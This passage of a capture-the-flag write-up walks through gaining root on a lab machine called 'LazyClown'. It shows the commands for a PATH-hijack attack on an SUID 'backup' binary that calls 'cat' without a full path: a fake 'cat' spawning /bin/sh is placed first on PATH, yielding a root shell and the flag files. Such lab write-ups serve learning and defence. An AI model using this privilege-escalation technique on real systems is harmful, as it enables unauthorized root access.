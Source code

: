 user.txt is in the home directory.
{% highlight shell %}
mitsos@LazyClown:~$ cat ~/user.txt 
d558e7924bdfe31266ec96b007dc63fc
{% endhighlight %}

### 3. Getting Root
Pretty straightforward.<br>
In the home directory of mitsos, we have a binary "backup" with SUID
{% highlight shell %}
mitsos@LazyClown:~$ ls -l
total 16
-rwsrwsr-x 1 root   root   7303 May  3  2017 backup
drwxrwxr-x 4 mitsos mitsos 4096 May  2  2017 peda
-r--r--r-- 1 mitsos mitsos   33 Jan 18  2018 user.txt
{% endhighlight %}

It looks like a binary. However, we can see a linux command "cat" is executed.
{% highlight shell %}
mitsos@LazyClown:~$ strings backup 
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
system
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
[^_]
cat /etc/shadow
;*2$"
GCC: (Ubuntu 4.8.4-2ubuntu1~14.04.3) 4.8.4

{% endhighlight %}

By creating a shell file "cat" and add the path at the beginning of $PATH, we can execute any command as root.
{% highlight shell %}
mitsos@LazyClown:~$ pwd
/home/mitsos


mitsos@LazyClown:~$ echo "/bin/sh" > cat


mitsos@LazyClown:~$ export PATH=~/:$PATH


mitsos@LazyClown:~$ ./backup


# id
uid=1000(mitsos) gid=1000(mitsos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(mitsos)


# /bin/cat /root/root.txt
990b142c3cefd46a5e7d61f678d45515
{% endhighlight %}

